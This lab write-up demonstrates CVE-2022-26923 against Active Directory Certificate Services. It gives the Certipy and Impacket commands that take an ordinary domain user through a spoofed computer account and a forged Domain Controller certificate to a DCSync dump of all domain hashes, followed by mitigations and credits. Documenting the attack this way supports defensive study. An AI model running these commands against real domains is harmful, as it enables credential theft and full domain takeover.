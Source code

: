 # The Attack In Brief
1. AD Certificates can be used for authentication.
2. Certificates can be generated from **templates** in a **Certificate Signing Request** (CSR).
3. There are **two** types of templates available in **ADCS** by default: User and Computer.
4. Those templates are **accessible to anyone** in the `Domain Users` or `Domain Computers` groups.
5. Those templates **allow the certificate holder to authenticate** with them.
6. *When generating a certificate for a computer object*, the template will check its `DNSHostname` property and **will generate the certificate based on that**.
7. **Meaning:** *if the computer's* `DNSHostname` *says it's a Domain Controller,* you will get a certificate for a **Domain Controller!**
8. *By default,* **any authenticated user** can join up to 10 computers to the domain.
9. *When a user joins a computer to the domain,* he can modify its `DNSHostname` property.
10. *Combining the last two points,* a user can *spoof* the `DNSHostname` to *forge* a certificate as a **Domain Controller**.
11. *With a Domain Controller's certificate,* the user *can obtain* the computer account's **NTLM** hash.
12. *And with that hash,* can he *pose* as a legit **Domain Controller** and *request a full copy of the domain's hashes* (a.k.a **perform a `DCSync` attack**).

---

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

---

# Lab Setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali [192.168.145.128]
![kali-machine](kali-machine.jpg)

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

---

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed `DNSHostname`
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory on the server with ADCS installed and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

---

# Mitigation
1. Applying the patch released by Microsoft (https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923).
2. Reducing certificate template permissions.
3. Reducing the default user's machine quota to zero. Only Administrators should have this privilege.

---

# References and Credits
- **Will Schroeder** and **Lee Christensen** who wrote the paper that started it all (https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- **Oliver Lyak** (https://twitter.com/ly4k_) who discovered and reported the vulnerability and created the `Certipy` tool.
- **SecureAuthCorp** for the awesome **Impacket** scripts of course :D